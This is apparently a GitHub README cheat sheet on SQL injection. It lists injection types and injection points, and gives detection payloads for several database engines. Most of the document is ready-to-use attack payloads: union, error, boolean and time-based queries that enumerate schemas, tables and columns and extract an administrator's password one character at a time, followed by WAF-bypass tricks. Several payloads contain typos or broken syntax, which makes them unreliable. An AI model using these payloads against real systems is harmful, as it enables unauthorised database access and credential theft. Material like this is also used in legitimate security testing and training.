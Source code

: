 # SQL Injection

- [Types](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Cheat_Sheet/SQL%20Injection/Readme.md#types-of-sql-injection)
- [Injection Points](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Cheat_Sheet/SQL%20Injection/Readme.md#sql-injection-points)
- [Detection](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Cheat_Sheet/SQL%20Injection/Readme.md#detecting-sql-injection)
- [Exploitation](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Cheat_Sheet/SQL%20Injection/Readme.md#exploitation)
---
### Types of SQL Injection

* In Band SQL Injection
* Blind SQL Injection
* OutOfBand Injection

### SQL Injection Points

- **`Login Form`**
- **`Url Search Parameters`**
- **`Url id values`**
- **`Cookie Values`**
- **`XML encoded values like <storeId>**</storeId>`**
- **`Form Input Sections`**
- **`File Upload Sections`**

## Detecting SQL Injection

*  Error Based

        '
        "
        ;
        ;--
        ;#
        `
        ')
        ")
        `)
        '))
        "))
        `))

* Union Based

      ' union select 1,2,3,4;-- -
      ' order by 1,2,3,4;-- -
      ' union select null,null,null,null;-- -
* Boolean Based

      ' and true;-- -
      ' and false;-- -
      ' and 1=1;-- -
      ' and 1=2; -- -
      ' or 1=1; -- -
      ' or 1+2 = 3;-- - 
      ' and 'a' is not 'b
      ' or '1' = '1
* Time Based

  * MySQL
    
        '; select sleep 10;-- -
        ' and sllep 10; -- -
        ' && sleep 10; -- -
        ' | sleep 10; -- -
  * PostgreSQL
    
        ' || pg_sleep(10);-- -
        '; select pg_sleep(10);-- -
  * Oracle
        
        1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
        1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)
  * MSSQL

        ' waitfor_delay '0.0.10
  * SQLite

        1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
        1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))

## Exploitation

#### In-Band SQL Injection

- Union Based Attack
```sql
' UNION SELECT 1,2,3,4;-- -
```
```sql
' union select 1,2,group_concat(schema_name),4 from information_schema.tables;-- -
```
```sql
' union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=<database_name>
```
```sql
' union select 1,2,group_concat(column_name),4 from information_schema.columns where table_name = <the_table_name>
```

- Error Based Attacks
```sql
' AND EXTRACTVALUE(1337, CONCAT('~|~', (SELECT version()), '~|~'));-- -
' AND EXTRACTVALUE(1337, CONCAT('~|~', (SELECT @@version), '~|~'));-- -
' AND EXTRACTVALUE(1337, CONCAT('~|~', (SELECT database()), '~|~'));--
```
- Stack Based Attack
```sql
'; select group_concat(schema_name) from information_schem.tables;-- -
```

#### Boolean SQLInjection 

- Extracting database name
```sql
id  =  2'  and  length(database())  >  10;--
```
```sql
id  =  2'  and  ascii(substr(database(),1,1)) > 100;--
```
```sql
id  =  2'  and  ascii(substr(database(),2,1)) > 100;--
```
- Extracting table names
```sql
id  =  2'  and  (length(select  table_name  from  information_schema.tables  where  table_schema = '<name of database>' limit 0,1))  >  10;--
```
```sql
id  =  2'  and  ascii(substr(((select  table_name  from  information_schema.tables  where  table_schema = '<name of database>') limit 0,1),1,1)) > 100;--
```
```sql
id  =  2'  and  ascii(substr(((select  table_name  from  information_schema.tables  where  table_schema = '<name of database>') limit 2,1),1,1)) > 100;--
```
```sql
id  =  2'  and  ascii(substr(((select  column_name  from  information_schema.columns  where  (table_schema = '<name of database>'  and  table_name = <table name>) limit 0,1),1,1))  >  100;--
```
- Column name enumeration
```sql
id  =  2'  and  ascii(substr(((select  column_name  from  information_schema.columns  where  (table_schema = '<name of database>'  and  table_name = <table name>  and  column_name  !=  <one of the column>) limit 0,1),1,1)) > 100;--
```
- Data Extract
```sql
id  =  2' and  length((select  column_name_here  from  <table name>) limit 0,1)  >  10;--
```
```sql
id  =  2' and  ascii(substr(((select column_name_here  from  <table name>) limit 0,1),1,1)) > 100;--
```
- Admin password extract
```sql
id=1' and (select username from tabke_name_here where username = 'admin') = 'admin';-- -
id=1' and (select username from table_name_here where username = 'admin' and (length(password) > 10)) = 'admin';-- -
id=1' and (select username from table_name_here where username = 'admin' and (ascii(substr(select password from table_name_here where usrename = 'admin')1,1) > 100) = 'admin';-- -
```
#### Time Based Injection
- Functions to be used

        sleep(10)
        pg_sleep(10)
        waitfor delay '0.0.10'
        benchmark()
- General Syntax
```sql
hvdhjv’; select case 
when (1=1) then pg_sleep(10) 
else pg_sleep(0) 
end ;
```
- Table Name Enumeration
```sql
hvdhjv’; select case 
when ((ascii(substring(select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>10) 
then pg_sleep(10) 
else pg_sleep(0) 
end ;
```
- Column Name Enumeration
```sql
hvdhjv’; select case when ((ascii(substring(select column_name from information_schema.columns where table_name=<table_name> limit 1),1,1))>10) then pg_sleep(10) else pg_sleep(0) end ;
```
- Username and Password
```sql
hvdhjv’; select case when ((ascii(substring(select username from <table_name> limit 0,1),1,1))>10) then pg_sleep(10) else pg_sleep(0) end ;
```
- Admin password enumeration
```sql
xyz'|| (case when (substr((select password from users where username='administrator'),1,1) = 'a') then pg_sleep(10) else pg_sleep(0) end) || '
```
```sql
hvdhjv’; select when ((ascii(substring(select password from <table_name> where username='admin'),1,1))>100) then pg_sleep(10) else pg_sleep(0) end ;
```

## WAF Bypasses

#### Avoiding the White Space
Using alternatives of white spaces
```sql
'/**/or/**/1=1;--

'%09or%091=1;--

'%0Aor%0A1=1;--

'%0Bor%0B1=1;--

'%A0and%A01=1;--
```
#### Parenthesis
```sql
id=(1)or(1)=(1)
```
#### No Comma allowed
```sql
LIMIT 0,1  ==>  LIMIT 0 OFFSET 1

SUBSTRING('hello world', 1, 1)  ==>  SUBSTRING('hello world' FROM 1 FOR 1)

SELECT 1,2,3,4  ==>	UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```
#### Others
```
'ad'||'min'  is equal to 'admin'
```
```
in the place of  '1' = '1'  you can use  'a'  is not  'b'
```




























































































































































































































































































































































































































































































